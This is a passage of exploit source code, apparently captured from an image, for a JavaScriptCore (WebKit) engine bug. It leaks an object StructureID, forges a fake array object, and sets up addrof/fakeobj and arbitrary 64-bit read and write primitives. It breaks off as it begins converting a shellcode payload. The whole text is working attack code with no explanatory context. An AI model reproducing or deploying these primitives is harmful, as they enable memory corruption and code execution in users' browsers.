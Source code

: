 ```
let structureID = LeakStructureID(arrLeak);
print("[+] leak structureID: "+hex(structureID));

pad = [{}, {}, {}];
var victim = [noCoW, 14.47, 15.57];
victim['prop'] = 13.37;
victim['prop_1'] = 13.37;

u32[0] = structureID;
u32[1] = 0x01082309-0x20000;

var container = {
    cellHeader: f64[0],
    butterfly: victim   
};

// build fake driver
var containerAddr = AddrOf(container);
var fakeArrAddr = containerAddr + 0x10;
var driver = FakeObj(fakeArrAddr);

// ArrayWithDouble
var unboxed = [noCoW, 13.37, 13.37];
// ArrayWithContiguous
var boxed = [{}];

// leak unboxed butterfly's addr
driver[1] = unboxed;
var sharedButterfly = victim[1];
print("[+] shared butterfly addr: " + hex(f2i(sharedButterfly)));

driver[1] = boxed;
victim[1] = sharedButterfly;

// set driver's cell header to double array
u32[0] = structureID;
u32[1] = 0x01082307-0x20000;
container.cellHeader = f64[0];

function NewAddrOf(obj) {
    boxed[0] = obj;
    return f2i(unboxed[0]);
}

function NewFakeObj(addr) {
    unboxed[0] = i2f(addr);
    return boxed[0];            
}

function Read64(addr) {
    driver[1] = i2f(addr+0x10);
    return NewAddrOf(victim.prop);
}

function Write64(addr, val) {
    driver[1] = i2f(addr+0x10);
    victim.prop = i2f(val);
}

function ByteToDwordArray(payload)
{
    let sc = []
    let tmp = 0;
```